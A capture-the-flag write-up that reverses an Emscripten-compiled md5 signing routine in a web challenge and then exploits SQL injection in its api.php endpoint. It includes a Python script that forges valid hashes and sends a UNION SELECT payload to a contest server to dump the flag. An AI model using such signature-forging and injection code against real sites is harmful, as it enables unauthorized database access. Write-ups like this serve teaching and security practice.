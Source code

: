 # King of Glory

Zach Wade (@zwad3) Sam Kim (@ubuntor)

## A Bit of Reversing

In this web problem, we encounter a page with no obvious content (save a title). Upon further examination, we see that the page is looking for an `id` parameter and then calling a function on it to get a hash and timestamp. Given the only other included JavaScript is in the file `functionn.js`, it is reasonable to assume that this is where the hashing function lies.

Once we examine `functionn.js`, we immediately see that it is a compiled EMSCRIPTEN file, which means that it was originally native code that had been compiled to `js` via `llvm`. Fortunately for us, a quick examination of the code yields that the first of the EMSCRIPTEN-compiled functions is `__ZN5HASH14initEv`. This is a clear example of c++ function mangling, and so using a demangler we find that this function is `_HASH1::init()`. From there, we can search through and see that this function is called from `__ZN5HASH1C2ERKNSt3__112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE` (`_HASH1::HASH1(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&)`), which is then called from `__Z3hi1NSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE` (`_hi1(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> >)`). Finally, we see that this function, which upon inspection of the corresponding `update` and `finalize` functions appears to be an `md5` functino, is then called from the function `__Z10user_inputNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE` (`_user_input(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> >)`). Given the name of this function, it is reasonable to assume that this is the main function for us to examine.

Now, when examining this code, we see a long mess of functions that seem to be creating and updating dynamic string objects on the fly. In order to get a better understanding of what this code does, we need to know a little bit about how emscripten's emulated environment looks like. Specifically, we need to know that the heap lives in a variable called `heap8`. To help us see what's happening, we will define a function called `printString` which lets us examine a string on the heap.

```js
printString = function(idx) {
	var zout = ""
	for (var i = idx; HEAP8[i] != 0; i++) {
		 zout += String.fromCharCode(HEAP8[i])
	}
	console.log(zout)
}
```

It will also be helpful to define a function to let us examine the contents a c++ `basic_string` type. In this case, the string object will live in a variable called `heap32`, and by trial and error, I found that the string itself is offset by 8 bytes. Furthermore, because this variable is a `32` bit representation, we must divide by 4 when indexing. Thus, we can print a basic string as

```js
printBString = function(idx) {
	printString(HEAP32[idx+8>>2])
}
```

Now that we have these handy debug statements, we can examine what is being created and changed all throughout this method. In the end, what we find is that it begins by taking the `md5` of `"Start_here_"`, then taking bytes 6-22 of the hex representation of that. Those are then prepended to the value being hashed, which is followed by the aptly-named salt, `"This_is_salt"`. The string is finally appended with the current time in seconds. Then, the value that is outputted is the `md5` of the above  string, postpended with the time and `"yo"`, delinineated by `|`. Thus, the the python implementation of this function ends up being

```python
import hashlib

def md5 (string):
    m = hashlib.md5()
    m.update(string)
    return m.hexdigest()

def run (val, time):
    intermed = md5("Start_here_")[6:16+6]
    string = intermed+val+" This_is_salt"+str(time)
    hash = md5(string)
    return hash+"|"+str(time)+"|yo"
```

In addition to this functionality, the executable also makes a few checks to ensure that the value being hashed is a numeral. However, now that we know what the hashing algorithm is, we can hash any value. 

## Transition to Web

Now that we have the hashing algorithm, we can look at what it does once it generates the hash. It sends it to  `/api.php` and passes in the original value and the hash and time. We notice that it throws an error if you provide an improper hash, but if you provide a proper hash and value less than 6, it will generate a name. Otherwise, if you hash and send a string, it generates a 500 error. From here, its not much a logical leap that the rest of the problem would be SQL injection. In fact, the injection is near trivial, as all the protection was done by the hashing algorithm. After poking around with the database contents, we find that we can use the following request to dump the flag

```python
import hashlib
import requests

def md5 (string):
    m = hashlib.md5()
    m.update(string)
    return m.hexdigest()

def run(val, time):
    intermed = md5("Start_here_")[6:16+6]
    string = intermed+val+" This_is_salt"+str(time)
    hash = md5(string)
    payload = {'id':val, 'hash':hash, 'time':time}
    return requests.get('http://202.120.7.213:11181/api.php',params=payload)

r = run("123 UNION ALL SELECT 0,hey FROM fl4g", "1489810337")
print(r.text)
```

Thus, we get `flag{emScripten_is_Cut3_right?}`, which indeed it is.
